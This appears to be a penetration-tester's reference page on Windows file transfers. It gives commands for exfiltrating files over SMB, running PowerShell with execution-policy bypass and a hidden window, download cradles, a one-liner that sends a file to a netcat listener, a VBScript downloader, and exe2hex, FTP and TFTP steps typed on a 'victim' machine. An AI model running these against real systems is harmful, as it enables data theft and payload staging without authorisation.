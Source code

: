 ```yaml
---
layout: default
title: Windows
parent: File Transfers
---
```


# Windows File Transfers
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## SMB
Exfill files recursively
```powershell
xcopy /c /h /r /s /y <source> <smb destination>
```
- e.g. `C:\*`

---

## PowerShell
Running PowerShell commands/files
```powershell
powershell -ep bypass -nol -noni -nop -Command <command>
powershell -ep bypass -nol -noni -nop -File <file>
```
- `-ep` sets the default execution policy for the current session, but does not override the value set in the registry
- `-nol` hides the copyright banner at startup
- `-noni` does not present an interactive prompt to the user
- `-nop` does not load the Windows PowerShell profile
- Can additionally add `-w hidden` to hide the window
- Note; some detection just greps for these args

Paste into terminal to create `wget.ps1` script
```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "<url>" >> wget.ps1
echo $file = "<output file>" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

```powershell
powershell -ep bypass -nol -noni -nop wget.ps1
```

One-liners (first is same as above pasted script)
```powershell
(New-Object System.Net.WebClient).DownloadFile(<url>, <output>)         # Fast, but no progress bar
(New-Object System.Net.WebClient).DownloadFileAsync(<url>, <output>)    # As above, but asynchronous
Invoke-WebRequest -Uri <url> -OutFile <output>                          # Easy, progress bar, but very slow
Start-BitsTransfer -Source <url> -Destination <output> [-Asynchronous]  # Fastest, asynchronous, progress bar, but BITS may not be enabled
```

PowerShell one-liner to send file to NetCat
```powershell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```

---

## VBScript
Paste into terminal to create `wget.vbs` script
```powershell
echo 'strUrl = WScript.Arguments.Item(0)' > wget.vbs
echo 'StrFile = WScript.Arguments.Item(1)' >> wget.vbs
echo 'Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0' >> wget.vbs
echo 'Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0' >> wget.vbs
echo 'Const HTTPREQUEST_PROXYSETTING_DIRECT = 1' >> wget.vbs
echo 'Const HTTPREQUEST_PROXYSETTING_PROXY = 2' >> wget.vbs
echo 'Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts' >> wget.vbs
echo 'Err.Clear' >> wget.vbs
echo 'Set http = Nothing' >> wget.vbs
echo 'Set http = CreateObject("WinHttp.WinHttpRequest.5.1")' >> wget.vbs
echo 'If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")' >> wget.vbs
echo 'If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")' >> wget.vbs
echo 'If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")' >> wget.vbs
echo 'http.Open "GET", strURL, False' >> wget.vbs
echo 'http.Send' >> wget.vbs
echo 'varByteArray = http.ResponseBody' >> wget.vbs
echo 'Set http = Nothing' >> wget.vbs
echo 'Set fs = CreateObject("Scripting.FileSystemObject")' >> wget.vbs
echo 'Set ts = fs.CreateTextFile(StrFile, True)' >> wget.vbs
echo 'strData = ""' >> wget.vbs
echo 'strBuffer = ""' >> wget.vbs
echo 'For lngCounter = 0 to UBound(varByteArray)' >> wget.vbs
echo 'ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))' >> wget.vbs
echo 'Next' >> wget.vbs
echo 'ts.Close' >> wget.vbs
```

```powershell
cscript wget.vbs <url> <output>
```

---

## Convert File to Base64
Base 64 Encoding
```powershell
certutil -encode <input> <output>
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("<UTF8 string>")) > <b64 output>
```

Base 64 Decoding
```powershell
certutil -decode <input> <output>
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
```

---

## exe2hex (debug.exe or PowerShell)
```shell
python3 exe2hex.py -x <exe> [-b <bat output>] [-p <ps output>] [-cc]        # From file
cat <exe> | python3 exe2hex.py -s [-b <bat output>] [-p <ps output>] [-cc]  # From stdin
```
- Paste output into target terminal to create file on target machine
- `-b` output to bat file (uses `debug.exe`, only 32-bit OSes, no file size limit)
- `-p` output to ps file (supports 64-bit, is not a ps script, only calls ps at end)
- `-c` or `-cc` for compression level
- `-t` creates an Expect file to automate a Telnet session
- `-w` creates an Expect file to automate a WinEXE session
- When using over **Telnet** or **WinEXE**, 100+ lines can be unpredictable including incorrect ordering or character ommission:
    - Use [Expect](http://expect.sourceforge.net/); available on most distros `apt install expect`
    - Further details found here <https://github.com/g0tmi1k/exe2hex/blob/master/README.md>

---

## exe2bat (debug.exe)
- Only works on 32-bit systems and file must be at most 64kB
- If > 64kB, use a compression tool such as `upx`
```shell
upx --ultra-brute <file>
```

Convert .exe to series of echo commands using `exe2bat`, paste into target terminal to create file on target machine
```shell
wine exe2bat.exe <input exe> <output text file>  # Remove Wine if on Windows
```

---

## FTP
- Often enabled, but interactive so need to provide text file with FTP commands instead

Setup FTP server e.g. vsftpd, pureftpd or proftpd
```shell
vim /etc/vsftpd.conf  # anonymous_enable=YES
service vsftpd start  # Default anonymous directory is /srv/ftp or /var/ftp
```

Paste into victim terminal (anonymous : anonymous for anonymous login)
```powershell
echo open <ip> > ftp.txt
echo <username> >> ftp.txt
echo <password> >> ftp.txt
echo bin >> ftp.txt
echo GET <remote file> >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```

---

## TFTP
- Enabled by default up to Win 2003/XP
- UDP based, often blocked by corporate egress rules
- Non-interactive, easy to setup

```powershell
atftpd --daemon --port 69 <directory>  # Setup server on attacker's machine
tftp -i <ip> GET <remote file>  # On victim machine
```